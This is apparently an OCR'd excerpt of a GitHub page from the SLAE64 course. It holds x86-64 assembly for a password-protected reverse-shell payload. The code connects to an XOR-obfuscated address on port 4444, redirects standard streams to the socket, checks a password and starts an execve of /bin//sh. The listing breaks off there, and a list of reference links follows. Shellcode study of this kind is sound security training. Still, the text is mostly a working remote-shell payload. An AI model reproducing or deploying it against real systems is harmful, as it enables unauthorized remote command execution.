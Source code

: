         xor eax, eax
        push rax          ; sin_zero
        push 0x10ffff70   ; sin_addr (xored)
        xor dword [rsp], 0x11ffff0f ; recover sin_addr
        push word 0x5c11  ; htons(4444)
        push word 2

        ; connect
        add al, 42
        push rsp
        pop rsi
        add dl, 16    ; sizeof(sockaddr_in)
        syscall

    dup2:
        ; dup2(sock, 0);
        ; dup2(sock, 1);
        ; dup2(sock, 2);
        ; __NR_dup2 = 33
        ; On success, return the new file descriptor

        push 2
        pop rsi

    dup2_loop:
        mov al, 33
        syscall
        dec esi
        jns dup2_loop

    read_password:
        ; read(int fd, void *buf, size_t count)
        ; On success, the number of bytes read is returned

        ;xor eax, eax  ; already done by dup2
        ;rdi = "sock"  ; already done
        push rax
        push rax       ; create space for "buf" in the stack
        push rsp
        pop rsi        ; rsi = *buf
        mov dl, 16
        syscall

    compare_password:
        xor ecx, ecx
        mov cl, [rel pass_len]
        lea rdi, [rel password]
        cld
        repz cmpsb
        jne exit

    execve:
        ; execve(const char *path, char *const argv[], char *const envp[])
        ; rdi, path = (char*) /bin//sh, 0x00 (double slash for padding)
        ; rsi, argv = (char**) (/bin//sh, 0x00)
        ; rdx, envp = &0x00


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7